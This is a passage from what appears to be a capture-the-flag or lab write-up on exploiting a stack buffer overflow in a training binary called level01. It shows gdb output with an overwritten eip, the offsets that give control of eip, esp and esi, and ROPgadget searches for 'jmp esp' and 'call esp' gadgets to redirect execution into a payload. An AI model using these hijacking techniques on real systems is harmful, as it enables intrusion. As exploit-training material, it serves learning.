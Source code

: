 esi            0xbff96dd9 -1074172455
edi            0x8049ed1  134520529
eip            0x65413665 0x65413665
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb)
{% endhighlight %}

The attacker can control the value of `eip` from the bytes at offset 139 into the path buffer. The `esp` register points to offset 143 in the path buffer and the `esi` register points to offset 0 the second pattern. In level00 the second pattern is where is the payload was sent, assuming the payload will be transmitted in the same way, `esi` points to the start of the payload.

## Which way to jump
---

Using the `jmp reg` technique an attacker can execute instructions at an address specified by a register. Since the attacker controls the data that `esp` and `esi` points at, they can execute arbitrary instructions using either a `jmp esp` or `jmp esi` instruction.

First try the `esi` register because it points directly at the payload. The level01 binary is not compiled as position indepedent code causing all the instructions to have static addresses. The attacker can rely on these memory addresses for instructions, such as the `jmp esi`. ROPGadget by Jonathan Salwan is a tool to find desirable sets of instructions, or gadgets.

Use ROPGadget to find all `jmp` instructions:

{% highlight bash %}
pwf@ubuntu:~$ ROPgadget --binary level01 --only "jmp"
Gadgets information
============================================================
0x08049f4f : jmp esp

Unique gadgets found: 1
{% endhighlight %}

No `jmp` instructions for `esi`. Instead try finding a `call` instruction instead:

{% highlight bash %}
Unique gadgets found: 1
pwf@ubuntu:~$ ROPgadget --binary level01 --only "call"
Gadgets information
============================================================
0x080499d4 : call 0x8049a48
0x0804a023 : call dword ptr [ebx]
0x08048c1f : call eax
0x08049f0f : call esp

Unique gadgets found: 4
{% endhighlight %}

